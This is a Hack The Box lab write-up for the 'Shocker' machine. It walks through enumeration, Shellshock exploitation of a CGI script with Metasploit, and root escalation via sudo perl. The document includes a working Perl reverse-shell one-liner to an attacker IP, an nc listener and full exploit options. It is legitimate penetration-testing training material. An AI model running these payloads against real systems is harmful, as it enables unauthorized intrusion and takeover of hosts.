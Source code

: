 # htb-shocker
This is my [Hack the box](https://www.hackthebox.eu/)'s Shocker machine write-up.

## Machine
OS: GNU/Linux

IP: 10.10.10.56

Difficulty: Easy

## Enumeration
[Nmap](https://github.com/nmap/nmap) scan on the target:

`nmap -sV -sC -oN shocker.nmap 10.10.10.56`

Flags:
 - `-sV`: Version detection
 - `-sC`: Script scan using the default set of scripts
 - `-oN`: Output in normal nmap format

```
root@kali:~/htb/shoker# nmap -sV -sC -oN shocker.nmap 10.10.10.56
Starting Nmap 7.70 ( https://nmap.org ) at 2020-05-23 14:54 EDT
Nmap scan report for 10.10.10.56
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.06 seconds
```
The page itself just has a picture that doesn't really say much. Inspecting the page using dev tools doesn't give any extra information either.

Enumerate directories of the webpage using [gobuster](https://github.com/OJ/gobuster):
```
root@kali:/usr/share/wordlists# gobuster dir --url 10.10.10.56 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt --timeout 20s
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        20s
===============================================================
2020/05/23 15:18:57 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2020/05/23 15:19:39 Finished
===============================================================
```

Duckduckgoing a bit I noticed that the machine's name refers to the Shell Shock vulnerability (CVE-2014-6271), which is related to the `/cgi-bin` directory.

Search on Metasploit:
```
msf > search shellshock

Matching Modules
================

   Name                                               Disclosure Date  Rank       Description
   ----                                               ---------------  ----       -----------
   auxiliary/scanner/http/apache_mod_cgi_bash_env     2014-09-24       normal     Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   auxiliary/server/dhclient_bash_env                 2014-09-24       normal     DHCP Client Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/advantech_switch_bash_env_exec  2015-12-01       excellent  Advantech Switch Bash Environment Variable Code Injection (Shellshock)
   exploit/linux/http/ipfire_bashbug_exec             2014-09-29       excellent  IPFire Bash Environment Variable Injection (Shellshock)
   exploit/multi/ftp/pureftpd_bash_env_exec           2014-09-24       excellent  Pure-FTPd External Authentication Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/apache_mod_cgi_bash_env_exec    2014-09-24       excellent  Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/http/cups_bash_env_exec              2014-09-24       excellent  CUPS Filter Bash Environment Variable Code Injection (Shellshock)
   exploit/multi/misc/legend_bot_exec                 2015-04-27       excellent  Legend Perl IRC Bot Remote Code Execution
   exploit/multi/misc/xdh_x_exec                      2015-12-04       excellent  Xdh / LinuxNet Perlbot / fBot IRC Bot Remote Code Execution
   exploit/osx/local/vmware_bash_function_root        2014-09-24       normal     OS X VMWare Fusion Privilege Escalation via Bash Environment Code Injection (Shellshock)
   exploit/unix/dhcp/bash_environment                 2014-09-24       excellent  Dhclient Bash Environment Variable Injection (Shellshock)
   exploit/unix/smtp/qmail_bash_env_exec              2014-09-24       normal     Qmail SMTP Bash Environment Variable Injection (Shellshock)
```

`multi/http/apache_mod_cgi_bash_env_exec` is the one we were looking for. But this one needs the URI of some script that may be under `/cgi-bin`. 


After several attempts with [wfuzz](https://github.com/xmendez/wfuzz), this one is good for finding `user.sh` was there:

```
root@kali:~# wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt  http://10.10.10.56/cgi-bin/FUZZ.sh
```
> Note that the `-x` flag of gobuster provides the possibility to append one or more extensions to each word of the list, so it would be the same as we did here with wfuzz.

Now we got the script it's possible to exploit the vulnerability. These are the exploit options already set:
```
   Name            Current Setting                     Required  Description
   ----            ---------------                     --------  -----------
   CMD_MAX_LENGTH  2048                                yes       CMD max line length
   CVE             CVE-2014-6271                       yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent                          yes       HTTP header to use
   METHOD          GET                                 yes       HTTP method to use
   Proxies                                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST           10.10.10.56                         yes       The target address
   RPATH           /bin                                yes       Target PATH for binaries used by the CmdStager
   RPORT           80                                  yes       The target port (TCP)
   SRVHOST         0.0.0.0                             yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT         8080                                yes       The local port to listen on.
   SSL             false                               no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                             no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       http://10.10.10.56/cgi-bin/user.sh  yes       Path to CGI script
   TIMEOUT         5                                   yes       HTTP read response timeout (seconds)
   URIPATH                                             no        The URI to use for this exploit (default is random)
   VHOST                                               no        HTTP server virtual host
```

And it's possible to get a shell by exploiting it:
```
msf exploit(multi/http/apache_mod_cgi_bash_env_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (861480 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.56:57908) at 2020-05-24 07:35:52 -0400
```

This is enough to get the user flag:
```
whoami
shelly
```

From here it's very straightforward. Check sudoers: `sudo -l`
```
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

Good news, `shelly` can run perl as root, so a Perl reverse shell will do:

Attacker:
```
nc -lvp 4444
```

Victim:
```
perl -e 'use Socket;$i="10.10.14.4";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

And that's it:
```
# whoami
root
```
